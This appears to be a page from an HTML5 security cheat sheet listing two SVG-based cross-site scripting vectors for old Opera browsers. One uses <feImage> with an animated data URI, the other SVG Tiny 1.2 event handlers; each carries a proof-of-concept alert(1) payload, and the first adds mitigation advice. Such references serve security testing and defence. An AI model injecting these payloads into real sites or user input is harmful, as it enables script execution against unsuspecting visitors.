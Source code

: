 reporter：LeverOne

### Using SVG element <feImage> and animated data URIs#95test

SVG allows using filter effects to be applied on arbitrary visible SVG elements. The feImage filter allows inclusion of other files - as well as data URIs. With a maliciuosly crafted data URI it's possible to execute JavaScript without user interaction. List all of the elements which can be animated can be found in the specified documentation.

```
<svg  > <feImage> <set attributeName="xlink:href" to="data:image/svg+xml;charset=utf-8;base64, PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPjxzY3JpcHQ%2BYWxlcnQoMSk8L3NjcmlwdD48L3N2Zz4NCg%3D%3D"/> </feImage> </svg> 
```

Make sure that user submitted SVG data and SVG files are treated as XML documents - not as images. The nature of SVG allows to include almost arbitrary XML data including JavaScript leading to XSS or worse.

*   opera 10.0
*   opera 12.0

*   xss

*   svg
*   opera
*   filter effects
*   feimage

*   [`www.w3.org/TR/SVG/filters.html`](http://www.w3.org/TR/SVG/filters.html)

*   [`www.w3.org/TR/SVG11/animate.html#Animatable`](http://www.w3.org/TR/SVG11/animate.html#Animatable)
*   [`www.w3.org/TR/SVGMobile12/animate.html#Animatable`](http://www.w3.org/TR/SVGMobile12/animate.html#Animatable)
*   #88

reporter：.mario

### Executing JavaScript in SVG Tiny 1.2 without user interaction#104test

Opera - providing advanced support for SVG Tiny 1.2 targeting mobile devices - allows to execute JavaScript without user interaction via arbitrary tags. The tag is being applied with a handler pointing to a data URI containing the actual handler. Important is the hash at the end of the data URI to identify the corrrect handler. It is also possible to refer to an element contained in the SVG by its ID or an external resource.

```
<svg  id="foo"> <x  event="load" observer="foo" handler="data:image/svg+xml,%3Csvg%20xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg…Chandler%20xml%3Aid%3D%22bar%22%20type%3D%22application%2Fecmascript%22%3E alert(1) %3C%2Fhandler%3E%0A%3C%2Fsvg%3E%0A#bar"/> </svg> 
```

*   opera 10.x
*   opera 12.0
